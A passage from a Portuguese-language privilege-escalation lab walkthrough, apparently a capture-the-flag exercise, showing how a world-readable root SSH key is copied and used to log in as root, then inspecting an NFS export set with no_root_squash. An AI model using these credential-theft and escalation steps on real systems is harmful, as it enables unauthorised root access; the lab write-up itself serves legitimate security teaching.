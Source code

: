 Note que temos um diretório chamado `.ssh` que contém um arquivo chamado `root_key`.

```bash
user@debian:~$ ls -l /.ssh
total 4
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
```

Essa chave aparenta ser a chave ssh do usuário root. Vamos copiar a chave para nosso computador e tentar logar como root.

Para copiar a chave basta ler o conteudo do arquivo e copiar o conteudo para um arquivo local

Para utilizar a chave precisamos alterar as permissões do arquivo para que ele possa ser utilizado:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      10:29:33
╰──➤ chmod 600 root.key
```

Agora vamos tentar logar como root utilizando a chave ssh:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      10:30:33
╰──➤ ssh -i root.key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.84.63
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~# whoami
root
```

Agora basta clicar em `Completed` para finalizar o topico.

---

## **<a id="19"> • NFS.</a>**

Os arquivos criados via NFS herdam o ID do usuário remoto. Se o usuário for root e o root squashing estiver ativado, o ID será definido como o usuário "nobody".

Sabendo disso vamos verificar a configuração do compartilhamento NFS:

```bash
user@debian:/.ssh$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```
